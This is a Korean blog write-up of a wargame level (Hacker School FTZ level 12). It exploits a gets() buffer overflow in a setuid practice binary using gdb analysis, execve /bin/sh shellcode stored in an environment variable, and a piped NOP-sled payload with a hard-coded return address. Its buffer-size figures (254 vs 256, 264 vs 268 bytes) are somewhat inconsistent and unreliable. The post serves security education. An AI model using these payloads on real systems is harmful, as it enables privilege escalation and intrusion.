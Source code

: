 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 12"
description: "Do you know the ?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level12/1.jpg" | relative_url }}' alt='relative'>  

## 1) level12/it is like this 입력해 로그인  

<img data-action="zoom" src='{{ "assets/ftz/level12/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

위의 코드를 보면 level11에서 공격했던 프로그램과 유사합니다.  

level11에서는 argv[1]에 들어 있는 값으로 BOF를 발생시켰다면,  
이번 문제에서는 사용자에게 입력을 받는 취약점을 이용해 BOF를 발생시킵니다.  

입력을 받는 경우 최대 입력 길이를 제한하지 않는 gets의 취약점을 이용한 문제입니다.  

## 2) 간단하게 해당 프로그램 살펴보기  

level11에서 봤던 프로그램과 비슷하기 때문에 간단하게 해당 프로그램을 살펴보겠습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/3.png" | relative_url }}' alt='relative'>  

ebp가 가리키는 주소에서 0x108(=264)만큼 떨어진 위치에 str 문자열 배열이 위치합니다.  
즉, str 배열의 시작 주소는 $ebp - 264라고 할 수 있습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/4.png" | relative_url }}' alt='relative'>  

get 함수를 call하는 0x080483d2(\*main+66)에 브레이크 포인트를 잡고 ebp 주소와 str 배열의 주소를 알아봤습니다.  
그리고 get 함수가 실행되고 난 뒤 str 배열에 입력된 값을 확인하기 위해 0x080483d7(\*main+71)에도 브레이크 포인트를 설정했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/5_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_3.png" | relative_url }}' alt='relative'>  

gets 함수의 인자로 str 배열의 주소가 eax 레지스터에 담겨있기 때문에 레지스터 주소를 확인하여 ebp 주소와 eax 주소를 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/6_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_3.png" | relative_url }}' alt='relative'>  

str 배열의 주소와 ebp가 가리키는 주소가 프로그램을 새로 실행할 때마다 달라져도  
str 배열의 주소와 ebp가 가리키는 주소 사이에 0x108 byte 크기만큼 공간이 띄어진 것을 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/7.png" | relative_url }}' alt='relative'>  

``` bash
r <<< $(python -c 'print "AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE"')
```

r은 프로그램을 run 한다는 뜻입니다. run을 하면서 사용자의 입력을 미리 입력 받고 있습니다.  

r 뒤에 '<<<'가 의미하는 것은 오른쪽에 단어를 왼쪽 프로그램에게 표준 입력으로 전달하겠다는 의미입니다.
즉, 표준 입력을 리다이렉션 하는 것입니다.  

``` bash
python -c [command]
```

python의 -c 옵션을 사용해 command로 주어지는 파이썬 문장을 실행시킵니다.  

그래서 총 264 byte 문자열("AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE")이 str 배열에 입력되었습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/8.png" | relative_url }}' alt='relative'>  

gets 함수 실행 전 str 배열에 들어있는 값과 gets 함수 실행 후 str 배열에 들어있는 값을 비교해보면  
gets 함수 실행 후 프로그램 실행 시 입력했던 264 byte 문자열이 입력되어 있는 것을 확인할 수 있습니다.  

gets 함수에서 최대 입력 문자열의 길이를 제한하지 않아 BOF가 발생했습니다.  
str 배열의 길이가 254 byte이지만 264 byte 문자열을 입력 받아 기존에 들어있던 SFP와 RET의 값을 지우고 사용자가 입력한 값으로 채웠습니다.  

return address를 의미하는 RET 위치에  
즉, 0x45454545가 들어있는 주소에 쉘코드가 저장되어 있는 주소를 입력해주면 BOF에 성공합니다.  

## 3) 쉘코드를 어디에 저장?  

위에서 프로그램을 여러 번 실행하면서 str 배열의 주소가 계속해서 바뀌는 것을 확인했습니다.  
str 배열의 주소를 RET 값으로 입력하면 쉘코드를 실행시킬 수 있지만  
str 배열의 주소가 계속해서 바뀌면 RET 주소의 값을 특정하기 어려워집니다.  

이는 메모리 상의 공격을 어렵게 하기 위해 스택, 힙, 라이브러리 등 주소를 랜덤으로 프로세스 주소 공간에 배치해 실행할 때마다 데이터의 주소가 변경되는 기법이 적용됐기 때문입니다.  
즉, ASLR 보호 기법이 적용되어 프로그램이 실행될 때마다 str 배열의 주소가 변경되었습니다.  

level11 문제에서도 ASLR 보호 기법이 적용되어 있어 RET 주소를 변경하며 반복 실행을 했었습니다.  
하지만 ASLR이 적용되어 있어 여러 번 실행해도 쉽게 풀 수 없을 걸로 예상되는데,,,  
그렇다면 ASLR을 우회할 수 있는 더 쉬운 방법은 없을까요?  

## 4) 환경 변수 사용하기  
<p><a id="env"></a></p>
환경 변수는 프로그램을 실행하기 위한 환경 정보를 담고 있습니다.  
> 환경 변수란? 
프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임이다. 
즉, 쉘에서 실행되는 프로그램에 데이터를 전달하는 시스템 내에 저장된 변수이다.  
일반적으로 사용되는 환경변수로는 HOME, PATH, SHELL, USER, bASH, UID, USERNAME 등이 있다.  


환경 변수를 확인하기 위해 env 명령어를 사용하면 됩니다.  
echo $\[환경 변수 이름\]을 입력해 환경 변수 값을 출력하고,  
export 환경 변수 이름을 입력해 환경 변수를 새로 만들거나 수정할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/9.png" | relative_url }}' alt='relative'>  

'ls', 'pwd', 'cd' 명령어를 절대경로로 입력하지 않고도 사용가능한 이유도  
PATH라는 환경 변수에 명령어가 저장되어 있는 디렉토리 주소(/bin/)가 명시되어 있기 때문입니다.  

쉘코드를 환경 변수에 등록해놓고 RET 주소에 쉘코드가 저장되어 있는 환경 변수 주소를 입력하는 것을 EggShell이라고 합니다.  
일반적으로 입력의 크기 또는 버퍼의 크기가 쉘코드의 크기보다 작아서 쉘코드를 입력할 수 없을 때 사용하는 방법입니다.  

이번 문제에서는 입력의 크기도 제한이 없고 버퍼도 쉘코드의 크기보다 크지만 RET 주소를 정확하게 특정하기 위해 EggShell 방법을 사용할 것입니다.   
그래서 환경 변수 이름을 EGG로 지정하여 환경 변수에 쉘코드를 저장한 뒤, EGG 환경 변수가 저장된 위치를 확인했습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/10.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

<img data-action="zoom" src='{{ "assets/ftz/level12/11.png" | relative_url }}' alt='relative'>  

EGG 환경 변수 값이 저장되어 있는 주소는 그림과 같고 해당 환경 변수에는 쉘코드가 저장되어 있습니다.  

## 5) BOF 시도하기  

쉘코드가 저장되어 있는 주소 위치도 찾았으니 BOF 공격을 시도하겠습니다.  

str 배열(254 bytes) + dummy (8 bytes) + SFP (4 bytes) = 268 bytes 이므로  
NOP으로 268 byte를 채우고 RET에 EGG 환경 변수 위치한 주소(=쉘코드가 저장된 주소)를 입력합니다.  

리틀 엔디언 방식으로 저장되기 때문에 0xbffffc88를 입력할 때는 \x88\xfc\xff\xbf로 입력해야 합니다.  

표준 입력을 받는 부분(gets)에 대한 내용을 프로그램 실행 시 입력하기 위해 파이프라인('|')을 사용합니다.   

``` bash
(python -c 'print "\x90"*268+"\x88\xfc\xff\xbf"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level12/12.png" | relative_url }}' alt='relative'>  

환경 변수를 이용하니 여러 번 반복 수행할 필요없이 깔끔하게 풀 수 있었습니다.  